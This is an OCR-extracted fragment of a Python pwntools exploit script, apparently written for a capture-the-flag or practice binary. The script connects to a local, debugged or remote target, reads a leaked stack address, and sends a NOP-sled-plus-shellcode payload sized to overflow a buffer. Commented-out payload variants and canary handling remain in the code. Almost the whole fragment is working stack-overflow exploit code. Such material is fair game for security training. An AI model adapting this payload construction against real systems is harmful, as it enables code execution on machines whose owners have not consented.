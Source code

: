 ```
print(f"Shellcode: {shellcode}")
print(f"Shellcode length: {shellcode_len}")


# FullPath
print(f"Program path is: {PROGRAM_PATH}")
print("____________________________________")


def start(argv=[], *a, **kwargs):
    if args.GDB:
        return gdb.debug([PROGRAM_PATH] + argv, gdbscript=gdb_script, *a, **kwargs)
    elif args.REMOTE:
        return remote(sys.argv[1], sys.argv[2], *a, **kwargs)
    else:
        return process([PROGRAM_PATH] + argv, *a, **kwargs)


io = start()
print("____________________________________")
# Get the file descriptor
FD = 1000


print("____________________________________")
# Get the stack address
res = io.recvuntil(":")
print(f"stack address received: {res}")


# le = p64(int(CANARY, 16), "little")
# be = p64(int(CANARY, 16), endianness="big")
NOP = b"\x90"
# This works
# payload = NOP * (16 - shellcode_len % 16) + shellcode

# This works too!
payload = NOP * (BUFF_SIZE - shellcode_len) + shellcode
# payload = shellcode + NOP * (BUFF_SIZE - shellcode_len)

# payload = shellcode
# print(f"Sending payload: {payload}")

# io.sendline(payload)
# io.interactive()

print("____________________________________")
print(f"Sending small shellcode")
io.sendline(payload)
res = io.recvall().decode("ascii")
print(res)
```
